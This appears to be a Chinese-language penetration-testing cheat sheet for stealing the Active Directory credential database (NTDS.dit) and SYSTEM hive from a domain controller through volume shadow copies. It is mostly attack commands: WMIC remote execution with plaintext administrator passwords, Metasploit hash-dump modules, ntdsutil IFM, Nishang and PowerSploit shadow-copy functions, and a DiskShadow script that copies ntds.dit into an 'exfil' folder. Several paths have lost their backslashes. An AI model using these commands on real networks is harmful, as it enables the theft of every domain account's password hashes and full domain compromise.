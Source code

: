 卷影副本，也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。

**WMIC**
```
wmic /node:AD /user:PENTESTAdministrator /password:123qweQWE!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@#!@# process call create "cmd /c copy 卷影IDWindowsNTDSNTDS.dit C:windowstempNTDS.dit 2>&1"
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@# process call create "cmd /c copy 卷影IDWindowsSystem32configSYSTEM c:windowstempSYSTEM.hive 2>&1"

net use k: \pentest.comc$
```

**metasploit**
```bash
auxiliary/admin/smb/psexec_ntdsgrab
windows/gather/credentials/domain_hashdump
hashdump
```

**NTDSUtil**

Ntdsutil.exe 是一个为 Active Directory 提供管理设施的命令行工具。

使用 NTDSUTIL 的 IFM 创建（VSS 卷影副本）在 DC 上本地引用 ntds.dit

NTDSUtil 是本地处理 AD DB 的命令实用程序（ntds.dit），并为 DCPromo 启用 IFM 集创建。IFM 与 DCPromo 一起用于“从媒体安装”,因此被升级的服务器不需要通过网络从另一个 DC 复制域数据。
```
ntdsutil "ac i ntds" "ifm" "create full c:temp" q q
```
当创建一个 IFM 时，VSS 快照被拍摄，挂载，ntds.dit 文件和相关数据被复制到目标文件夹中。

**Nishang**
```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

**PowerSploit**
```
Import-Module .\VolumeShadowCopyTools.ps1
New-VolumeShadowCopy -Volume C:\
Get-VolumeShadowCopy
```

**DiskShadow**

DiskShadow 是一个 Microsoft 签名二进制文件，用于协助管理员执行与卷影复制服务（VSS）相关的操作。这个二进制文件有两个模式 interactive 和 script ，脚本将包含自动执行 NTDS.DIT 提取过程所需的所有命令。我们可以在脚本文件中添加以下行，以创建新的 volume shadow copy（卷影复制），挂载新驱动，执行复制命令以及删除 volume shadow copy。
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```
